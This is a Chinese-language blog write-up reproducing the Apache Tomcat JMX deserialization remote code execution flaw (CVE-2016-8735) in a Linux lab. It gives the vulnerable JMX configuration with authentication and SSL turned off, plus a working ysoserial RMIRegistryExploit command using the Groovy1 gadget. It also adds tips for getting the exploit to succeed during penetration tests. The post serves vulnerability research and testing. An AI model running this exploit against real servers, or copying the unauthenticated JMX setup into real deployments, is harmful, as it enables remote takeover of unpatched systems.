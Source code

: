 ```yaml
---
layout:     post
title:      "Apache Tomcat Remote Code Execution(CVE-2016-8735)"
subtitle:   "On Way"
date:       2016-12-08
author:     "Urahara"
header-img: "img/Tomcat.png"
header-mask: 0.3
tags:
    - Tomcat 
    - 反序列化
    - Remote Code Execution


---
```


### Versions Affected

```
Apache Tomcat 9.0.0.M1 to 9.0.0.M11
Apache Tomcat 8.5.0 to 8.5.6
Apache Tomcat 8.0.0.RC1 to 8.0.38
Apache Tomcat 7.0.0 to 7.0.72
Apache Tomcat 6.0.0 to 6.0.47
Earlier, unsupported versions may also be affected.
```

### Description

​	这个漏洞实质还是JMX反序列化漏洞，tomcat同样也用了JmxRemoteLifecycleListener这个监听器，但是tomcat在Oracle修复这个漏洞后自己没有及时更新，导致了反序列还依旧存在。网上搜了很多关于该漏洞的分析文章基本上都是0c0c0f牛在微信公众号里文章的转载或是变种，也基本都是在window系统上做的测试，所以也就想在linux也测试一下，也就有了这篇文章，大牛们勿喷呐= =、。

### Test Environment

> Linux Ubuntu server x86
>
> **Apache Tomcat** (http://archive.apache.org/dist/tomcat/tomcat-8/v8.0.36/bin/apache-tomcat-8.0.36.tar.gz)
>
> **catalina-jmx-remote** (http://archive.apache.org/dist/tomcat/tomcat-8/v8.0.36/bin/extras/catalina-jmx-remote.jar)  //添加至%TOMCAT_HOME%/lib/目录下
>
> **Groovy** (https://repo1.maven.org/maven2/org/codehaus/groovy/groovy/2.3.9/groovy-2.3.9.jar)    //添加至 %TOMCAT_HOME%/lib/目录下
>
> **POC** (https://github.com/frohoff/ysoserial)

### Test Steps

1. 修改 tomcat server.xml 配置文件，添加以下内容：

   ```
   <Listener className="org.apache.catalina.mbeans.JmxRemoteLifecycleListener" rmiRegistryPortPlatform="10001" rmiServerPortPlatform="10002" />
   ```

2. 修改 tomcat/bin 目录下 catalina.sh ，在# ----- Execute The Requested Command --------处添加以下内容：

   ```
   # ----- Execute The Requested Command -----------------------------------------
   CATALINA_OPTS="$CATALINA_OPTS
   -Dcom.sun.management.jmxremote
   -Dcom.sun.management.jmxremote.ssl=false
   -Dcom.sun.management.jmxremote.authenticate=false  //设为无账号密码认证
   -Djava.rmi.server.hostname=192.168.64.7"  //设置hostname为服务器ip地址，否则JMX无法进行远程访问
   ```

3. ./startup.sh启动tomcat服务

4. 执行POC

   ```
   java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 192.168.64.7 10001 Groovy1 "touch /tmp/tomcat_test"
   ```

   ![Tomcat-CVE-2016-8735](http://reverse-tcp.xyz/img/Tomcat-CVE-2016-8735.png)

   -----

   ​	关于linux配置tomcat运行远程监控（JMX）这里有个坑，网上搜到的绝大多数关于linux下tomcat jmx配置的文章，都使用了只修改catalina.sh为以下内容的方法，包括[Zabbix Wiki](https://www.zabbix.com/documentation/2.0/manual/config/items/itemtypes/jmx_monitoring)也是推荐的这种方式：

   ```
   CATALINA_OPTS="$CATALINA_OPTS 
   -Dcom.sun.management.jmxremote 
   -Dcom.sun.management.jmxremote.port=9999 
   -Dcom.sun.management.jmxremote.ssl=false 
   -Dcom.sun.management.jmxremote.authenticate=false 
   -Djava.rmi.server.hostname=192.168.64.7"
   ```

   ​	但就这种方式而言，需要注意的是 catalina.sh 中提供的默认变量名 JAVA_OPTS 和 CATALINA_OPTS。由于 JAVA_OPTS 所添加的参数会在 tomcat 开启和关闭时都运行，所以如果你把 `Dcom.sun.management.jmxremote.port=9999` 写在 JAVA_OPTS 中时，关闭服务的时候是会报错的，而且在该漏洞场景中攻击利用也是不会成功的，因此需要注意的是在平常渗透过程当中若在linux下遇到了该漏洞，利用不成功也是正常的。

   -----

### Referer

   [http://seclists.org/oss-sec/2016/q4/502](http://seclists.org/oss-sec/2016/q4/502)

   微信公众号：0c0c0f

   ​
